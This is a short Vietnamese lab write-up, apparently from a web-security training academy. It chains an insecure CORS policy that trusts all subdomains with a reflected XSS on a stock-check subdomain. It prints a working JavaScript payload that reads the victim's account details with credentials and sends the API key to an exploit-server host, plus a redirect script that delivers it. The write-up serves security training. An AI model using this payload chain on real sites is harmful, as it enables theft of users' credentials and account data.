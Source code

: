 - Trang web này có cấu hình CORS không an toàn ở chỗ nó tin cậy tất cả các tên miền phụ bất kể giao thức.

- tương tự các bài trên mình đăng nhập và thấy trang web hỗ trợ CORS

![image](https://hackmd.io/_uploads/HyF8mnf6a.png)

nhưng trang web chỉ cho phép cùng domain hoặc từ subdomain

![image](https://hackmd.io/_uploads/BJuT73Gpp.png)

![image](https://hackmd.io/_uploads/ByvkEhMaa.png)

Một điểm chú ý là khi xem post sản phẩm bất kì thì xuất hiện chức năng Check stock, khi click sẽ thực hiện request đến 1 subdomain `http://stock.<LAB-DOMAIN>/?productId=X&storeId=Y` để trả về số sản phẩm còn trong kho.

![image](https://hackmd.io/_uploads/B1nHE3zTT.png)

Bây giờ ta sẽ đi tìm cách tấn công làm sao để nạn nhân sẽ request đến /accountDetails từ subdomain `http://stock.<LAB-DOMAIN>` chứ không phải từ exploit-server.

### Khai thác

mình scan trang web với burp suit và thấy được lỗi reflected XSS trả về

![image](https://hackmd.io/_uploads/Hk1FS2Map.png)

![image](https://hackmd.io/_uploads/SJVnShzT6.png)

- Như vậy, bây giờ chỉ cần truyền payload cors attack sau khi URL-encoded vào trường productId và khiến nạn nhân truy cập vào đường dẫn này thì nó sẽ thực thi payload từ subdomain nhờ XSS và request đến /accountDetails. Payload cors attack:

```javascript!
<script>
    fetch('https://0aa5000403f87add83078eab00a60075.web-security-academy.net/accountDetails', {
          credentials:'include'
    })
    .then(r => r.json())
    .then(j => fetch('https://exploit-0abd001e03967a84839c8dd301f8001c.exploit-server.net/?apiKey=' + j.apikey))
</script>
```

![image](https://hackmd.io/_uploads/S1tpP2GTa.png)

Tại exploit-server, truyền payload sau:

```javascript!
<script>
   document.location = "http://stock.<LAB-DOMAIN>/?productId=<ENCODED-CORS-ATTACK>&storeId=1"
</script>
```
